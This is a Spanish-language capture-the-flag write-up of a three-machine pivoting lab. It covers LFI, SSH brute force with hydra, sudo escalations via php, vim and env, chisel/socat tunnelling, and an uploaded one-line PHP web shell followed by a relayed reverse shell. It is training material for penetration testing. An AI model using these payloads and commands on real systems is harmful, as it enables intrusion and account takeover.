






- Tags: #pivoting #chisel #socks5 #LFI #fuerzaBruta #AbusoDeFileUpload 
___
comenzamos la maquina con el escaneo típicos de nmap en el cual conoceremos los puertos abiertos.

```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.2 -oG allport
```

para posteriormente aplicar el escaneo de versiones y servicios del mismo nmap por lo que continuemos.

```
nmap -p 80,22 10.10.10.2 -sCV -oN target 
```

tenemos una pagina web la cual tiene la page de apache2 cuando esta recién instalado.

aplicando fuzzing con gobuster encontramos que tiene un directorio. 
_____

______
si vemos el directorio nos encontraremos con lo siguiente.
_____

_____
esto ya es un indicativo que nos permitirá guiarnos y lograr conseguir algo. 
____

______
tenia pinta de ser un RCE por como estaba representado en la imagen anterior pero resulto ser un escenario para explotar un Local File Inclusión.

esto nos da a conocer dos usuarios a los cuales aplicaremos fuerza bruta para ver si podemos acceder por ssh.
_____

____
utilice hydra al principio pero estaba tardando mucho por lo que al final opte por crackmapexec. 

lo importante es que tenemos credenciales por lo que accedemos a la maquina por ssh.
____

______
tenemos el usuario manchi y debemos pivotar al usuario seller, no vemos vectores obvios que nos permitan pivotar al usuario seller por lo que usaremos fuerza bruta para encontrar sus credenciales.

con un script de mario y una parte de diccionario de rockyou puesto que el original es muy pesado, separe una parte de mil contraseñas y ese fue el que utilice.

```shell
split -l 1000 /ruta/del/diccionario part_
```

utilizando ese comando para dividirlo.
____

_____
tenemos una contraseña para el usuario seller, por lo que ahora veremos como escalar a root.
____

_____
podemos ejecutar php sin proporcionar contraseña, por lo que aplicamos el siguiente comando de php.

```php
sudo su php -r "system('/bin/bash')"
```

____

____
y es así que logramos completar la maquina.


____
## Pivoting Trust 
______
comenzamos escaneando la otra subred que tenemos en la maquina, esto lo hacemos con un script de mi propiedad programado en bash.

y que lo pueden conseguir en mi github: https://github.com/1NCO6N1TO/scan-network/blob/main/scan_network.sh

```bash
	#!/bin/bash

# Definir colores
rojo='\033[0;31m'
verde='\033[0;32m'
amarillo='\033[1;33m'
sin_color='\033[0m'

# Función para manejar la interrupción con Ctrl+C
function Ctrl_c() {
    echo -e "\n${rojo}[!] Saliendo...${sin_color}"
    tput cnorm
    exit 1
}

# Atrapar la señal de interrupción (Ctrl+C)
trap Ctrl_c INT

# Ocultar cursor
tput civis

# Verificar si se ha proporcionado una dirección IP como argumento
if [ $# -ne 1 ]; then
    echo -e "\n${verde}[+] Debes ingresar una dirección IP como argumento.${sin_color}\n"
    echo -e "${amarillo}Ejemplo: $0 192.168.0.2${sin_color}\n"
    tput cnorm
    exit 1
fi

# Función para validar la dirección IP
function ValidarIP() {
    local ip=$1
    local regex="^([0-9]{1,3}\.){3}[0-9]{1,3}$"

    if [[ $ip =~ $regex ]]; then
        # Validar que cada octeto esté en el rango de 0 a 255
        IFS='.' read -r -a octetos <<< "$ip"
        for octeto in "${octetos[@]}"; do
            if [[ $octeto -lt 0 ]] || [[ $octeto -gt 255 ]]; then
                echo -e "${rojo}[!] Error: El octeto $octeto no está en el rango de 0 y 255.${sin_color}"
                exit 1
            fi
        done
        return 0
    else
        return 1
    fi
}

# Validar la dirección IP proporcionada
if ValidarIP $1; then
    echo -e "\n${verde}[+] La dirección IP es válida. Procediendo con el escaneo...${sin_color}\n"
    IPmodificado=$(echo $1 | grep -oE '([0-9]{1,3}\.){3}')
    ultimo_octeto=$(echo $1 | grep -oE '[0-9]+$')
    conteo_hosts=$(mktemp)

    # Escanear la red
    for i in $(seq 1 254); do
        # Saltar el último octeto de la IP proporcionada
        if [ "$i" -eq "$ultimo_octeto" ]; then
            continue
        fi

        # Ping a cada host y verificar si está activo
        if timeout 1 bash -c "ping -c 1 $IPmodificado$i" &> /dev/null; then
            echo -e "${verde}[+] Host $IPmodificado$i - ACTIVO${sin_color}"
            echo "$IPmodificado$i" >> $conteo_hosts
        fi &
    done

    wait

    # Contar y mostrar los hosts activos encontrados
    hosts=$(wc -l < "$conteo_hosts" | tr -d ' ')
    rm $conteo_hosts

    if [ "$hosts" -eq 0 ]; then
        echo -e "${amarillo}[!] No se encontraron hosts activos.${sin_color}"
    fi

else
    echo -e "\n${rojo}[!] Error: La dirección IP no es válida.${sin_color}"
    tput cnorm
    exit 1
fi

# Restaurar el cursor
tput cnorm

```

_____

_____
tenemos otro host activo, por lo que utilizaremos chisel y configuraremos el proxychains para crear un túnel que nos permita acceder a ese host.

subimos el chisel a la maquina victima y lo configuramos como cliente.

y en nuestra maquina atacante lo configuramos como servidor.
_____

_____
ahora configuramos el proxychains y agregamos un socks5 con el localhost y el puerto 1080.
____

______
también tenemos que configurar foxyproxy si queremos acceder a la web de la maquina del nuevo host alcanzado.
_____

_____
configurando el hostname como localhost con el puerto 1080 y de tipo socks5.

con esto configurado y activo ya podremos acceder al host en nuestra pagina web.
_____

____
podemos aplicar el escaneo de nmap habitual pero aplicando pequeños cambios, como que antes del comando nmap debe de ir la palabra proxychains.

así luce el comando de nmap que me permitirá escanear este host.

```shell
proxychains nmap --top-ports 500 --open -T5 -v -n 20.20.20.3 -sT -Pn -oG allports 2>&1 | grep -vE "timeout|OK"
```

**Optimización del escaneo de puertos en pruebas de penetración:**

**1. Filtrado de resultados:**

- **Problema:** El escaneo de puertos puede generar errores, haciendo difícil identificar los resultados relevantes.
- **Solución:** Aplica filtros a los resultados del escaneo para mostrar solo los puertos abiertos o los servicios específicos que te interesan. Esto facilita el análisis y ahorra tiempo.

**2. Escaneo de puertos comunes:**

- **Problema:** Escanear todos los puertos (65535) puede ser muy lento, especialmente al usar herramientas como Chisel y Proxychains para crear túneles.
- **Solución:** Enfócate en escanear los 500 puertos más comunes en primer lugar. Muchos servicios vulnerables se encuentran en estos puertos, por lo que es una forma eficiente de comenzar.

**3. Escaneo desde la máquina víctima:**

- **Problema:** El escaneo desde la máquina atacante a través de un túnel puede ser lento y generar ruido innecesario.
- **Solución:** Ejecuta un script de escaneo de puertos directamente en la máquina víctima (si tienes acceso). Esto te dará resultados más rápidos y precisos. Luego, desde la máquina atacante, puedes usar herramientas básicas de reconocimiento para explorar los puertos abiertos identificados.

en esta ocasión se reportaron dos puertos abiertos, el 80 y el 22.
________

____
ahora procedemos a aplicar los scripts básicos de reconocimiento.

```shell
proxychains nmap -sT -Pn -sCV -p 22,80 20.20.20.3 -oN targeted 2>&1 | grep -v "OK"
```

____

_____
tenemos la web pero no nos reporta nada interesante por lo que aplicaremos fuzzing para ver que encontramos.
____

_____
el comando de gobuster para aplicar fuzzing con proxychains es el siguiente.

```bash
gobuster dir --proxy socks5://127.0.0.1:1080 -u http://20.20.20.3 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt --add-slash
```

si entramos a pagina web en secret.php veremos lo siguiente.
_____

____
parece que tenemos un usuario llamado mario, por lo que aplicaremos fuerza bruta con hydra.

```shell
proxychains hydra -l mario -P /usr/share/wordlists/rockyou.txt 20.20.20.3 ssh
```

____

______
obtenemos una contraseña para mario, nos conectamos por ssh y aplicamos el comando sudo -l y nos aparece lo siguiente.
____

____
para poder escalar privilegios debemos ejecutar el siguiente comando.

```bash
sudo vim -c ':!/bin/bash'
```

_______

___
y somos root.

____
## Pivoting Upload
____
aun nos queda una maquina por pivotar y nos ayudaremos con socat para abrir otra sesión en el chisel configurando un nuevo socks5 y activando el dynamic chains.
______

_____
activamos el dynamic_chain y comentamos el strict_chain, también crearemos otro socks5 en el localhost pero con el puerto 8888, el nuevo debe de estar por encima del viejo.
_____

______
ahora necesitamos socat, si en la maquina no esta instalado nos descargaremos un binario y lo transferimos a la primer maquina comprometida la inclusion, es importante que guardemos las credenciales de cada maquina, ya que necesitaremos tener mas de una sesión activa de cada maquina.

el pivoting suele ser un poco confuso por lo que si puede armar un diagrama de la red te ayudaría mucho.

también necesitaremos subir el chisel a nuestra segunda maquina comprometida la maquina trust y ahora si podemos configurar el chisel con el socat.
_____

_____
aqui lo que se esta haciendo reutilizar el túnel que ya teníamos con chisel, para que todo el trafico que genere la maquina dos pueda ser redirigido por socat y que nos pueda llegar a nuestra maquina victima.

para realizar estas conexiones siempre debemos pensar que maquina tiene conexión con la otra.

ahora podemos configurar un nuevo proxy con foxyproxy para poder acceder a la web del nuevo host.
______

_____
de esta forma podremos ver la web del ultimo host.
____

____
también tenemos que aplicar los escaneos con nmap.
_____

_____
nos reporta un único puerto abierto.

y es una pagina web que nos permite cargar un archivo, por lo que cargamos un archivo .php con el siguiente codigo.

```php
<?php
system($_GET['cmd']);
?>
```

esto nos permitirá ejecutar comando de forma remota. 
______

______
por lo que ahora nos enviamos una reverse shell para ganar acceso a la maquina.

pero antes debemos configurar con socat para que nos pueda llegar esa reverse shell desde el segmento de red 30.30.30.0/24

comenzamos configurando el socat en la segunda maquina que completamos, se configura para que todo el trafico que se genere por un puerto sea redirigido a otro.
______

_____
acá todo el trafico que se genere en el puerto 443 sera redirigido al puerto 442 del segmento de red 20.20.20.0/24 ese segmento se encuentra en la primer maquina, y ese trafico a su vez sera redirigido al puerto 441 en el segmento de red 10.10.10.0/24 el cual es nuestro segmento de red.

por lo que la reverse shell debe estar a la escucha por el puerto 441 para que nos pueda llegar la conexión.

una vez conectados aplicamos el tratamiento de la tty y vemos como escalar privilegios.
______

_____
teníamos que podíamos ejecutar env como root sin proporcionar contraseña de esa forma escalaríamos a root, completando así la ultima maquina.